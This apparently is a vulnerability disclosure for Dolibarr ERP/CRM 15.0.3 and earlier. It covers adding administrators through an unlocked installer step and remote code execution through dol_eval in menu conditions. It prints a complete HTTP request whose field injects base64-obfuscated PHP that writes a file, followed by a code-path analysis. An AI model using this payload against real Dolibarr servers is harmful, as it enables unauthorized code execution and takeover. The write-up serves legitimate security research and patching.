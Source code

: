 ## 1. Introduction

Dolibarr ERP & CRM is a modern software package that  helps manage your organization's activity (contacts, suppliers,  invoices, orders, stocks, agenda…).

It's an Open Source Software suite (written in PHP with  optional JavaScript enhancements) designed for small, medium or large  companies, foundations and freelancers.

dolibarr<=15.0.3 has an arbitrary add administrator vulnerability and a backend remote code execution vulnerability.



## 2. Vulnerability

### 2.1 add super administrators without authorization

Dolibarr does not automatically add `install.lock` after installation, it needs to be added manually by the user in the `documents` directory. For this feature, you can add as many super administrators as you want, using the section for adding super administrators during installation: `install/step4.php`.

<img src="README.assets/image-20220914174023102.png" alt="image-20220914174023102" style="zoom:50%;" />

<img src="README.assets/image-20220914174040017.png" alt="image-20220914174040017" style="zoom:50%;" />

### 2.2 Backend RCE

Firstly, use the edit function of menus to add malicious data to the database, here we use `file_put_contents` to write files.

```
POST /dolibarr1502/htdocs/admin/menus/edit.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 299
Origin: http://localhost
Connection: close
Referer: http://localhost/dolibarr/htdocs/admin/menus/edit.php?menuId=0&action=create&menu_handler=eldy&backtopage=%2Fdolibarr%2Fhtdocs%2Fadmin%2Fmenus%2Findex.php
Cookie: PHPSESSID=mtkbsit3sr99f9relns8b9isbf; DOLINSTALLNOPING_017fb6a80b4fcc706353a7f3b168d939=1; DOLSESSID_90637d005b446cd27f1f5444eb5ac092=2m4fegod13gk193u8g7js4nql5
Upgrade-Insecure-Requests: 1

token=5de221f6658ef66579740ae1636d24a6&action=add&menuId=12345671&menu_handler=eldy_menu&user=2&type=1&titre=1&url=1&enabled=1%3D%3D1%29%29%3B%24a%3Dbase64_decode%28%27ZmlsZV9wdXRfY29udGVudHM%3D%27%29%3B%24a%28%27.1234.php%27%2Cbase64_decode%28%27PD9waHAgcGhwaW5mbygpOz8%2BCg%3D%3D%27%29%29%3B%2F%2F
```

<img src="README.assets/image-20220914174400298.png" alt="image-20220914174400298" style="zoom:50%;" />

View the database table `llx_menu` and successfully add malicious data:

<img src="dolibarr.assets/image-20220616112531844.png" alt="image-20220616112531844" style="zoom:50%;" />

Secondly, access to `http://localhost/dolibarr1502/htdocs/admin/menus/index.php`, will generate malicious PHP files in the `admin/menus/` directory.

<img src="README.assets/image-20220914174643514.png" alt="image-20220914174643514" style="zoom:50%;" />



## 3. Analysis

The `dol_eval` function in `htdocs/core/lib/functions.lib.php` can execute arbitrary code, the dol_eval caller also in the `verifCond` function in this file. If you can control `$s` and bypass the forbidden restriction (bypass with php features: **variable functions**), you can execute arbitrary code.

<img src="README.assets/image-20220914175138526.png" alt="image-20220914175138526" style="zoom:50%;" />

<img src="README.assets/image-20220914175239958.png" alt="image-20220914175239958" style="zoom:50%;" />

Looking for controllable calls to the `verifCond` function, I found the `menuLoad` method in `htdocs/core/class/menubase.class.php`. The `menuLoad` method has two calls to `verifCond`.

<img src="README.assets/image-20220914200508401.png" alt="image-20220914200508401" style="zoom:50%;" />

But `$memu` is fetched from the database, so go ahead and look at the logic of the `$resql` statement. Focus on the table: `MAIN_DB_PREFIX.menu`, and `m.entity` in `(0, $conf->entity)`, `m.menu_handler IN ($this->db->escape($menu_handler),'all')"`. And `$menu_handler` is the parameter passed in. The condition to be satisfied is: `eldy`

![image-20220914200914426](README.assets/image-20220914200914426.png)

```php
$sql = "SELECT m.rowid, m.type, m.module, m.fk_menu, m.fk_mainmenu, m.fk_leftmenu, m.url, m.titre, m.langs, m.perms, m.enabled, m.target, m.mainmenu, m.leftmenu, m.position";
$sql .= " FROM ".MAIN_DB_PREFIX."menu as m";
$sql .= " WHERE m.entity IN (0,".$conf->entity.")";
$sql .= " AND m.menu_handler IN ('".$this->db->escape($menu_handler)."','all')";
if ($type_user == 0) $sql .= " AND m.usertype IN (0,2)";
if ($type_user == 1) $sql .= " AND m.usertype IN (1,2)";
$sql .= " ORDER BY m.position, m.rowid";
```

So, we need to find the code to insert or modify the table `MAIN_DB_PREFIX.menu`.

<img src="README.assets/image-20220914201200047.png" alt="image-20220914201200047" style="zoom:50%;" />

The `create` function, also located in `htdocs/core/class/menubase.class.php`, is used to add a piece of data to `MAIN_DB_PREFIX.menu`, focusing on `perms`, `enabled`, `entity`, and `menu_handler`. handler`, where `entity` is `$conf->entity` which just meets the conditions described above.

<img src="README.assets/image-20220914201651973.png" alt="image-20220914201651973" style="zoom:50%;" />

Keep track of the remaining three variables, located in `htdocs/admin/menus/edit.php`, all of which we can control.

<img src="README.assets/image-20220914201706559.png" alt="image-20220914201706559" style="zoom:50%;" />

